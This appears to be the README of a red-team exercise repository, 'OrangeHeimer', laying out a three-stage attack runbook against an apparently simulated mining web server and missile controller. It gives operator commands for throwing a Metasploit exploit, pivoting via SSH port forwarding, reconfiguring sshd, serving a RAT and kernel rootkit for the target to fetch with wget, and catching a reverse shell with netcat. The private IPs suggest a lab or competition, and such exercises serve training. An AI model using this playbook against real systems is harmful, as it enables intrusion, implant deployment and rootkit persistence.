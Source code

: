 # OrangeHeimer
## Network Diagram
![OrangeHeimerNetwerk](https://github.com/user-attachments/assets/d6b00e75-2c73-411a-b7a7-92f11a9e2214)
## Stage 1: Oranco Mining Web Server Exploitation
### Objective
Exploit web server and set up connection to internal relay SSH
### Files:
- orangeland.py
- stage1.rc
### IPs and Ports:
All can be customized in stage1.rc file
- thrower box 10.0.1.21:4444
- oranco Web 10.0.1.1:8443
- thrower SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
### How to Run:
- run "chmod +x orangeland.py"
- move orangeland.py into metasploit-framework/embedded/framework/modules/exploits/unix/webapp/
- run "msfconsole -r stage1.rc" -- this may need to be run with sudo depending on computer configs
### Possible Failures and Solutions:
Orangeland.py has been tested on multiple ops and should work, if it doesn’t, then verbally harass the analysts.  
If portfwd fails:
- verify that the SSH server is running at the IP and port as indicated, if they are different, re run the portfwd command with -p <SSH_PORT> -r <SSH_IP>
- run "shell" in meterpreter, upgrade using "python -c 'import pty; pty.spawn("/bin/bash")'", and verify that the SSH credentials work
- run the portfwd command with a different thrower port using -l <THROW_PORT> Note, this means that all future SSH commands cannot use sshpass and must use -p <THROW_PORT>  
## Stage 2: Setting up Network Communication
### Objective
Set up direct communication between orangeland and device controller using SSH port forwarding
### Files:
- stage2.sh
### IPs and Ports
Can be customized by editing stage2.sh
- thorwer SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run:
- execute and verify stage 1
- run "./stage2.sh"
- verify success by opening http://localhost:4200 in a web browser, this should return a "Forbidden" page
### Possible Failures and Solutions:
If you cannot SSH into localhost:
- run shell in meterpreter
- upgrade using python3 -c 'import pty; pty.spawn("/bin/bash")'
- SSH into the server with ssh -Nf missileadmin@172.31.81.221
- run SSH reconfiguration commands and verify success
- execute port forwarding commands, using 10.0.1.1 instead of 127.0.0.1
  
If an error occurs in the reconfiguration of the SSH server:
- SSH into the server from localhost
- Check if /etc/ssh/sshd_config has 'GatewayPorts yes' in its last line, if not then sudo su and add it
- Restart ssh service, this can be done with "service ssh restart" or "systemctl restart ssh"
- Continue with normal port forwarding commands

If the commands execute normally, but no response is received from http://localhost:4200
- SSH into the server from localhost
- Run "netstat -plant", check if the output contains a TCP listener on 0.0.0.0:4242
- If the netstat does contain the TCP listener, it indicates that the mastersockets works. Verify that the controller is up and has the correct IP address with the analysts. Then attempt to rerun the first mastersockets command.
- If the netstat has the TCP listener on 127.0.0.1 instead of 0.0.0.0, then the server is not configured properly. Go through the confiugration remediation steps.
- If the netstat has no TCP listener on port 4242, or netstat -plant on the thrower has no open TCP listener on 0.0.0.0:4200, then it is a problem with SSH port forwarding. SSH into the server and determine the issue.  
## Stage 3: Exploiting the Missile Controller
### Files
- orangeRodent
- stage3.py
- dolos_rootkit.ko
### IPs and Ports
Can be edited through changing orangeRodent.c and re-cross-compiling and by editing stage3.py
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run
- execute and verify stages 1 and 2
- run "python3 -m http.server 4201" in a directory with the orangeRodent and dolos_rootkit.ko to serve the controller the implant 
- run "nc -lv 4202" in a separate terminal to listen for the rat
- run "python3 stage3.py" to throw the exploit
### Possible Failures and Solutions:
If there is no request made to wget:
- Cry
- Verify that the ssh server has proper port forward to thrower box
- Ask the "man on the inside" to examine what is going wrong on the controller
  
If there is a request to wget, but the netcat listener never catches the rat:
- This indicates a problem with the rat
- Run the exploit using the telnet reverse shell which is currently comment out
- Peep around to see what could be wrong
  
If the netcat listener receives the rat, but the rootkit is not up:
- Use rat to examine what is wrong with rootkit
- Fix and recompile the rootkit
- Use rat to send over and install rootkit
